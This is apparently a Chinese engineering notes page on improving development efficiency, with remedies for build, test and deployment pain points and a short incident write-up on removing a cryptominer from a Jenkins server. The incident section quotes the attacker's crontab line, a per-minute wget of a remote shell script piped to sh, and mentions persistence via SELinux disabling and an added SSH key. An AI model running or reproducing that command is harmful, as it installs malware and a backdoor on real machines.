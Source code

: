 
**研发效能提升**
* 从痛点入手
```
本地编译耗时长：提供增量编译和分布式编译能力
本地测试困难，测试环境准备复杂且耗时：基于K8S的Pod提供一键搭建测试环境的能力
自动化测试用例数量大，执行回归时间过长：采用并发测试用例执行机制，使用几百几千台测试执行机并行执行用例，实现用硬件资源换时间
自动化测试用例维护成本高：测试用例采用模块化和分层体系，实现低成本的自动化用例维护
测试数据准备困难：引入统一测试数据服务（Test Data Service）能力
研发后期阶段，代码递交集中，缺陷井喷：推行测试左移，鼓励研发自测，推行”谁开发，谁测试，谁上线，谁Oncall“
性能缺陷在研发后期发现，修复重测成本高居不下：从性能测试转变为性能工程，让性能融入软件研发的各个环节，而不是最后的一锤子买卖
安全问题频现：将安全测试能力纳入研发的全生命周期，实现DevSecOps，而不是早期的SDL
集群规模庞大，发布过程耗时过长：各个层级的并发部署能力，集群内节点的并发，集群间的并发等
项目的过程数据都是后期集中填充，失去度量意义：项目过程数据由工具自动填充，不再依赖工程师手工输入。比如开发完成时间不再依赖于开发人员手工填写，而是由Jenkins构建完成后自动填写，以保证所有过程数据的真实有效性，从而为后面的度量和改进提供可靠的信息输入。
```

* 第二条是“从全局切入“。很多时候我们会尝试去优化某个具体的环节，而忽略了全局优化的可能。
* 第三条是“用户获益“。对于研效提升，有一点我们必须牢记，那就是成功的标准不是研发效能平台的成功，而是客户成功。
```
伪需求：伪需求是指研效团队自己臆想出来的，是属于典型的“手里拿着锤子，看什么都像钉子”的典型案例。那么如何识别伪需求呢？识别标准其实很简单，就看客户是不是愿意和你分摊成本，如果业务线已经开始做了，或者想要开始做，那就说明那是业务线的刚需，如果研效平台能帮助提供方案，那研效平台的接入就是水到渠成的事情。我就见到过很多这类刚需的例子，比如微服务架构下集成测试环境的搭建就是其中的典型。

结构问题：著名商业顾问刘润说过“结构不对，什么都不对“。比如两个和尚分粥的故事想必大家都听过，一碗粥两个和尚要均分，但是分粥的和尚总想多喝点粥，那怎么才能做到无监管情况下的公平呢？教育分粥的和尚说出家人“以少吃为怀”吗，显然一旦没有了监管，他就会给自己多分点，解决这个问题的最好办法就是一个和尚分粥，另一个和尚选粥，那么这个体制就决定了分粥的均匀性。所以好的策略是承认每个人都是自私的，但是你的策略能够在人人都是自私的基础上获得全局利益的最大化，如果你的全局利益最大化是建立在要求每个人都是大公无私的，那就是失败的设计，因为这必然会导致失败。回到研效提升这个问题上，我们必须抱着”不是我们的研效平台有多好，而是业务线用了以后有什么提升“来定位自己，才能从结构上获得成功的筹码。

服务意识：理解了上面的观点，理解服务意识就很自然了。在研效平台落地过程中我们需要和业务线互助实现双赢，业务线收获现成可用的方案，研效平台收获最佳实践的沉淀，这些最佳实践的沉淀是至关重要的，为后期的批量成功复制提供了技术基础。

另外还有一个小经验可以和大家分享，有时候为了让研效平台尽快能够在业务线落地，让业务线愿意成为我们的研效平台的试验田，我们有时还必须能承担起主动背锅的义务
```

* 持续改进



**最差实践**

* Sonar设而不卡
* PR形式化
* 监控设置但未处理


#### 困难的事情

**服务器被用作挖矿**

* NewRelic收到告警，linux jenkins-slave服务器当前CPU 100%
* 登上去，top命令看，看不到占用高的进程
* ps H -eo user,pid,ppid,tid,time,%cpu,cmd --sort=%cpu 看是否有隐藏进程
* 查看资料，安装htop
* 看到进程为12345的PID占用了大量的CPU
* kill -9 杀掉进程之后，一会又重启，应该是有定时任务
* ls -lrt -d /etc/cron* 查看任务配置， crontab -l 查看得到每分钟执行的任务，* * * * * wget -q -O - http://195.3.146.118/spr.sh | sh > /dev/null 2>&1
 -  文件关闭selinux，将自己ssh公钥加入authrized——key当中
* 注释定时任务
* systemctl 查找进程，杀掉进程，lsof -c 进程 查找文件，删除文件
